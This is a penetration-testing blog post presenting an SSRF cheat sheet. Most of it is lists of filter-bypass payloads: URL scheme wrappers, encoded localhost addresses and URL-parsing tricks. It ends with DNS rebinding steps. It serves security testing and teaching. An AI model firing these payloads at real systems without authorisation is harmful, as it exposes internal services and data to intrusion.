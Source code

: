 ```yaml
---
layout: blog_item
title: "SSRF Cheat Sheet & Bypass Techniques"
date:   2021-05-30 09:29:10
author: Arr0way
description: 'SSRF explained and the techniques to indentify, and bypass server side SSRF filtering.'
categories: [cheat-sheet]
tags:
- SSRF
- 'Web Application Penetration Testing'
---
```


* list element with functor item
{:toc}

## What is SSRF? 

Server Side Request Forgery (SSRF) is a web vulnerability that allows an attacker to exploit vulnerable functionality to access server side or local network services / functionality by affectively traversing the external firewall using vulnerable web functionality. 

Another way to think of this would be to imagine the web applications vulnerable function is a web browser, that will allow you to pivot / relay request to the internal interface addresses, loopback or internal network to access services (effectively traversing the WAF or firewall). 

An example of this could be a web function that allows the adding of a URL or third-party service, this could then be exploited to access internal or local IP address. 

After identifying SSRF on applications running modern frameworks or a WAF, more work will be required in an effort to defeat the protection / filtering that is in place, and allow for successful SSRF exploitation. 

<!--more-->


## Identifying Potential Locations for SSRF

Any functionality that allows external service interaction is a good stating point, any where that accepts a third party URL or service integration.

## How to Find SSRF Vulnerabilities 

In order to identify a SSRF vulnerability the first step is confirming that the functionality is vulnerable, an easy / scalable way to do this is using Burp Collaborator. Burp Collaborator will easily allow you to assess if out-of-band interaction is possible (the target server directly accessing a server you control). 

<div class="note info">
  <h5>PRO TIP: Run Your Own Collaborator Server</h5>
  <p>If you are taking part in bug bounty programs run your own Burp Collaborator  server as often the default Burp Collaborator service domain is filtered, giving you an increased chance of detection.</p>
    
    <p><a href="https://www.linode.com/?r=de68d06f20e245c4952795b3a57180b223ff4d42" rel="nofollow">Linode works great for this</a>, it's cheap, fixed price and has a direct public IP address.</p>
</div>

It should be noted that a function may still, potentially be vulnerable even if not identifid via Burp Collaborator, this is typically due to the target server not allowing outbound dns or strict egress firewall rules.  

## Tips for filtered SSRF

### Timing Difference

At the detection phase, try timing difference on responses to see if there is filtering in place when different domains, IP's or ports are being fitlered. 


### Wrappers

```
file:///
dict://
sftp://
ldap://
tftp://
gopher://
```
```
file:///, dict://, ftp://, gopher://
```

### Basic locahost bypass attempts 

Localhost bypass:

```
All IPv4: 0
All IPv6: ::
All IPv4: 0.0.0.0
Localhost IPv6: ::1
All IPv4: 0000
All IPv4: (Leading zeros): 00000000
IPv4 mapped IPv6 address: 0:0:0:0:0:FFFF:7F00:0001
8-Bit Octal conversion: 0177.00.00.01
32-Bit Octal conversion: 017700000001
32-Bit Hex conversion: 0x7f000001
```

various bypasses: 

```
127.0.0.1:80
127.0.0.1:443
127.0.0.1:22
127.1:80
0
0.0.0.0:80
localhost:80
[::]:80/
[::]:25/ SMTP
[::]:3128/ Squid
[0000::1]:80/
[0:0:0:0:0:ffff:127.0.0.1]/thefile
①②⑦.⓪.⓪.⓪
127.127.127.127
127.0.1.3
127.0.0.0
2130706433/
017700000001
3232235521/
3232235777/
0x7f000001/
0xc0a80014/
{domain}@127.0.0.1
127.0.0.1#{domain}
{domain}.127.0.0.1
127.0.0.1/{domain}
127.0.0.1/?d={domain}
{domain}@127.0.0.1
127.0.0.1#{domain}
{domain}.127.0.0.1
127.0.0.1/{domain}
127.0.0.1/?d={domain}
{domain}@localhost
localhost#{domain}
{domain}.localhost
localhost/{domain}
localhost/?d={domain}
127.0.0.1%00{domain}
127.0.0.1?{domain}
127.0.0.1///{domain}
127.0.0.1%00{domain}
127.0.0.1?{domain}
127.0.0.1///{domain}st:+11211aaa
st:00011211aaaa
0/
127.1
127.0.1
1.1.1.1 &@2.2.2.2# @3.3.3.3/
127.1.1.1:80\@127.2.2.2:80/
127.1.1.1:80\@@127.2.2.2:80/
127.1.1.1:80:\@@127.2.2.2:80/
127.1.1.1:80#\@127.2.2.2:80/
```


### hosts file bypass attempts 

### Enclosed Alphanumeric 

```
http://⑯⑨。②⑤④。⑯⑨｡②⑤④/
http://⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ｡⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ:80/
```

## DNS rebinding attempts 

### What is a DNS rebinding attack?

In certain situations a target function may check a hostname "blindly" against a whitelist/blacklist without verification of the the resolution IP address. Once the hostname has been determined OK by the above function it is then passed to the function which it is intended to protect.

### How to exploit a vulnerable function

You can setup a DNS server that resolves to the whitelist, then have a short TTL which changes to the IP you want to exploit e.g. 127.0.0.1 for SSRF, or any other internal IP. 

Fortunately taviso has built a [service for this](https://github.com/taviso/rbndr) which you can use to generate a dword subdomain and use against your target. The downside to this service is that it appears to flip the resolution IP back and forth, so it may change during the attack. 

You can use the follow web app to generate your rebinder domain: https://lock.cmpxchg8b.com/rebinder.html

To overcome this issue, have one of the resolution IP addresses in your control and verify the response of that IP request, to help determine if the target functionality is vulnerable.

1. go to https://lock.cmpxchg8b.com/rebinder.html add your IP's
2. check it works with host 
3. attempt to exploit the SSRF location with it


Happy hunting / pen testing. 
